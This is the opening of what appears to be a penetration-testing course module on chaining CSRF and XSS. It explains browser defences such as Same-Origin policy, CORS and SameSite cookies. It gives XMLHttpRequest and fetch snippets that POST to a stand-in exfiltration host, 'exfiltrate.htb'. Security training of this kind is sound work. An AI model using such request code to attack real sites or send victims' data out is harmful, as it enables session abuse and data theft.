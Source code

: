 # Introduction to Advanced CSRF & XSS Exploitation

In this module, we will discuss the exploitation of Cross-Site Request Forgery (CSRF) and Cross-Site Scripting (XSS) vulnerabilities in modern web applications, focusing on writing custom payloads to achieve specific objectives.

Proficiency in fundamental concepts of JavaScript, CSRF, XSS, and SQL injection vulnerabilities is a prerequisite for this module. Therefore, we recommend completing the Cross-Site Scripting (XSS), Session Security, and SQL Injection Fundamentals modules beforehand.

## Modern CSRF and XSS Exploitation in the Real-World

As we will discuss in this module, many security policies and security measures in modern web browsers restrict or prevent the basic exploitation of CSRF vulnerabilities. For instance, there are the Same-Origin policy, Cross-Origin Resource Sharing (CORS), and SameSite cookies, which we will all explore further in the upcoming sections.

As such, the exploitation of plain CSRF vulnerabilities has become increasingly rare in the real world. However, if we discover an XSS vulnerability, we can combine the exploitation of XSS and CSRF, resulting in a powerful tool that enables us to attack the vulnerable web application itself and potentially additional web applications in the victim's internal network.

To exploit CSRF and XSS vulnerabilities and interact with the vulnerable web application, we can use the `XMLHttpRequest` object or the more modern Fetch API. We can use both to make HTTP requests from JavaScript code while specifying HTTP parameters like the method, HTTP headers, or the request body.

For instance, we can send a POST request using the `XMLHttpRequest` object by specifying the URL in the call to `xhr.open`, setting HTTP headers using the `xhr.setRequestHeader` function, and specifying request body parameters in the call to `xhr.send`:

```js
var xhr = new XMLHttpRequest();
xhr.open('POST', 'http://exfiltrate.htb/', false);
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.send('param1=hello&param2=world');
```
On the other hand, we can send the same request using the Fetch API like so:

```js
const response = await fetch('http://exfiltrate.htb/', {
    method: "POST",
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: 'param1=hello&param2=world',
  });
```
The function `fetch` expects the URL in the first parameter. We can pass all additional request parameters in an object in the second parameter.

Note: Like the whitebox penetration testing process, debugging and testing our XSS and CSRF exploits locally before sending them to victims is paramount; this ensures that during engagements, we avoid bugs that may lead to unintended behaviors, such as denial of service.
